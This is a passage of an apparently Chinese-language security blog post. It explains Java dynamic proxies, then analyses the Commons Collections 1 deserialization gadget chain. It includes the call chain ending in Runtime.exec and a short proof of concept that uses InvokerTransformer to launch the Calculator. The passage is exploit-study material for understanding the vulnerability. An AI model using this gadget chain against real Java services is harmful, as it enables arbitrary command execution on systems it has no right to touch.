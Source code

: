 利用反射机制在运行时创建代理类。

接口、被代理类不变，通过构建 handler 类来实现 InvocationHandler 接口。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>public class ProxyHandler implements InvocationHandler{<br>    private Object object;<br>    public ProxyHandler(Object object){<br>        this.object = object;<br>    }<br>    @Override<br>    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {<br>        System.out.println("Before invoke "  + method.getName());<br>        method.invoke(object, args);<br>        System.out.println("After invoke " + method.getName());<br>        return null;<br>    }<br>}<br>``` |

执行动态代理：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>public static void main(String[] args) {<br>  	System.getProperties().setProperty("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");<br>    HelloInterface hello = new Hello();<br>    InvocationHandler handler = new ProxyHandler(hello);<br>    HelloInterface proxyHello = (HelloInterface) Proxy.newProxyInstance(hello.getClass().getClassLoader(), hello.getClass().getInterfaces(), handler);<br><br>    proxyHello.sayHello();<br>}<br><br>输出：<br>Before invoke sayHello<br>Hello zhanghao!<br>After invoke sayHello<br>``` |

## [](#2-commonscollections-1-gadget-%E5%88%86%E6%9E%90)2 CommonsCollections 1 Gadget 分析

### [](#21-%E8%B0%83%E7%94%A8%E9%93%BE)2.1 调用链

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```fallback<br>ObjectInputStream.readObject()<br>	AnnotationInvocationHandler.readObject()<br>		MapEntry.setValue()<br>			TransformedMap.checkSetValue()<br>				ChainedTransformer.transform()<br>					ConstantTransformer.transform()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Class.getMethod()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Runtime.getRuntime()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Runtime.exec()<br>``` |

### [](#22-poc)2.2 POC

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(Runtime.getRuntime()),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),<br>        };<br>        <br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br>        outerMap.put("test", "Geekby");<br>``` |

### [](#23-%E5%88%86%E6%9E%90)2.3 分析

#### [](#231-%E6%95%B4%E4%BD%93%E6%80%9D%E8%B7%AF)2.3.1 整体思路

cc1 gadget 的 sink 点在于 `InvokerTransformer` 类可以通过传入方法名，方法参数类型、方法参数，利用反射机制，进行方法调用。

反向寻找使用了 `InvokerTransformer` 类中 `transform` 方法的调用点：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108281634992.png-water_print](assets/1699411715-2fe47b0b71299b87132c2484a9947a42.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108281634992.png-water_print")
